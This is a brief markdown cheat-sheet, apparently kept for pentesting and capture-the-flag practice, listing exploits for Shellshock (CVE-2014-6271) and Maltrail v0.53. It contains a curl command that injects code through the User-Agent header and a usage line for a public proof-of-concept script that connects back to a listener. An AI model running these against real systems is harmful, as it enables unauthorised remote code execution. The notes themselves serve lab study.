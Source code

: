 # CVE Exploits

Random CVE exploits notes.

<hr class="sep-both">

## CVE 2014

<div class="row row-cols-lg-2"><div>

#### CVE-2014-6271

⚠️ Bash `[<4.3]` has a vulnerability called [shellshock](https://nvd.nist.gov/vuln/detail/CVE-2014-6271), that can also be exploited with metasploit (`apache_mod_cgi_bash_env_exec`):

```shell!
$ curl -H 'User-Agent: () { :; }; <write code here>' 'URL/cgi-bin/some_script'
```
</div><div>
</div></div>

<hr class="sep-both">

## No CVE

<div class="row row-cols-lg-2"><div>

#### Mailtrail v0.53

[![sau](../../../../_badges/htb-p/sau.svg)](https://app.hackthebox.com/machines/Sau)

[POC (python script)](https://github.com/spookier/Maltrail-v0.53-Exploit) <small>(0.05k ⭐)</small>.

```shell!
$ python3 exploit.py listener_ip listener_port URL
```
</div><div>
</div></div>